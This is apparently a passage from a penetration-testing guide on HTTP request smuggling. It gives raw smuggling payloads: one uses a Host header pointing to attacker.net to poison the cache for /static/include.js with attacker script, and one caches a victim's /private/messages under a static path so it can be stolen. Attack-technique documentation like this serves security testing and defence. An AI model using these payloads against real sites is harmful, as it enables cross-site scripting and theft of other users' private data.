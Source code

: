 `POST / HTTP/1.1  
Host: vulnerable.net  
Content-Type: application/x-www-form-urlencoded  
Connection: keep-alive  
Content-Length: 124  
Transfer-Encoding: chunked  
  
0  
  
GET /post/next?postId=3 HTTP/1.1  
Host: attacker.net  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 10  
  
x=1`

Note how the embedded request is asking for `/post/next?postId=3` This request is going to be redirected to `/post?postId=4` and **will use the value of the Host header** to indicate the domain. Therefore, you can **modify the Host header** to point the attackers server and the redirect will use that domain \(**on-site redirect to open redirect**\).

Then, **after poisoning the socket**, you need to send a **GET request** to **`/static/include.js`**this request will be **poisoned** by the **on-site redirect to open redirect** request and will **grab the contents of the attacker controlled script**.

The next time that somebody ask for `/static/include.js` the cached contents of the attackers script will be server \(general XSS\).

### Using HTTP request smuggling to perform web cache deception <a id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **What is the difference between web cache poisoning and web cache deception?**
>
> * In **web cache poisoning**, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
> * In **web cache deception**, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

In this variant, the attacker smuggles a request that returns some sensitive user-specific content. For example:

`POST / HTTP/1.1  
Host: vulnerable-website.com  
Connection: keep-alive  
Content-Length: 43  
Transfer-Encoding: chunked  
  
0  
  
GET /private/messages HTTP/1.1  
Foo: X`

If the **poison reaches a client that was accessing some static content** like `/someimage.png` that was going to be **cached**. The contents of `/private/messages` of the victim will be cached in `/someimage.png` and the attacker will be able to steal them.  
Note that the **attacker doesn't know which static content the victim was trying to access** so probably the best way to test this is to perform the attack, wait a few seconds and **load all** the static contents and **search for the private data**.
